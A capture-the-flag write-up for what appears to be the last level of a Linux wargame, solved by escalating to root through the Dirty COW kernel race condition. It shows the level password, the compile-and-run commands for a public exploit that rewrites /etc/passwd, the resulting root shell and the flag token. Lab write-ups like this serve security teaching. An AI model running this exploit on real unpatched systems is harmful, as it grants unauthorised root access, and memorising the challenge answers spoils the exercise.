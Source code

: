 `su level14 -> 2A31L79asukciNyi8uppkEuSx`

For this last level, we have nothing in our home folder.
`find / -user flag14 2>/dev/null` doesn't find any file owned by flag14.

When we `ltrace getflag` we get "You should not reverse this", so we will not try to exploit getflag.

As it is the last level, we think the solution could be an exploit to an higher level that previously, so we will look at exploit on our Linux Kernel.

```bash
$ uname -r
3.2.0-89-generic-pae
```

This kernel is sensible to the dirtycow exploit:
`"A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system." (RH)`

We find a nice c program to exploit it `https://github.com/FireFart/dirtycow/blob/master/dirty.c`

```bash
$ gcc -pthread dirty.c -o dirty -lcrypt
$ ./dirty
...
$ su firefart
$ mv /tmp/passwd.bak /etc/passwd
$ id
uid=0(root) gid=0(root) groups=0(root)
$ su flag14
$ getflag
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
```

And it's done !